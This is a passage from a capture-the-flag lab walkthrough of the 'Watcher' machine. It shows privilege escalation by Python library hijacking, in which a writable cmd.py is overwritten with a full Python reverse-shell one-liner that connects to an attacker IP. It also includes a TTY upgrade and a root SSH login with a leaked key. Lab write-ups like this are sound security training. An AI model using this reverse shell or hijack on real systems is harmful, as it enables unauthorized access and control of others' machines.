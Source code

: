 As you can see `will_script.py` which is the script that we can run as user `will` is calling a function from `cmd.py`. Thankfully, `cmd.py` is owned by us:

~~~
mat@watcher:~/scripts$ ls -la cmd.py
-rw-r--r-- 1 mat mat 133 Dec  3  2020 cmd.py
~~~

Which means we have write access and we can replace/add a python reverse shell to it and because it is being ran by user `will`, we'll get a shell as him. This is called **"python library hijacking"**. Let's replace the function with a the reverse shell:

~~~
mat@watcher:~/scripts$ echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<YOUR IP>",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' > cmd.py
mat@watcher:~/scripts$ cat cmd.py
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.0.209",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
~~~

Now start a listener and run `will_script.py` as user `will` using sudo:

~~~
mat@watcher:~/scripts$ sudo -u will /usr/bin/python3 /home/mat/scripts/will_script.py 1
~~~

Now we have a shell as user `will`. Let's spawn a TTY shell and read the 6th flag located in will's home directory:

~~~
$ python3 -c "import pty;pty.spawn('/bin/bash')"
will@watcher:~/scripts$ id
uid=1000(will) gid=1000(will) groups=1000(will),4(adm)
will@watcher:~/scripts$ cd /home/will
will@watcher:/home/will$ ls
flag_6.txt
will@watcher:/home/will$ cat flag_6.txt
FLAG{but_i_thought_my_script_was_secure}
~~~

Flag 6: `FLAG{but_i_thought_my_script_was_secure}`

### Flag 7

Hint: https://explainshell.com/explain?cmd=ssh%20-i%20keyfile%20host

Now we need to gain root access in order to read the last flag. From the hint, I know that there might be a key laying around somewhere and I was right. I found a base64 encoded key in `/opt/backups` named `key.b64`.

I copied it to my machine and decoded it and saved it as "key". Then I set its permission to 600 and then logged in as root via ssh:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Watcher/files]
└─$ chmod 600 key

┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Watcher/files]
└─$ ssh -i key root@$IP
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-128-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Oct 30 12:12:29 UTC 2021

  System load:  0.07               Processes:             135
~~~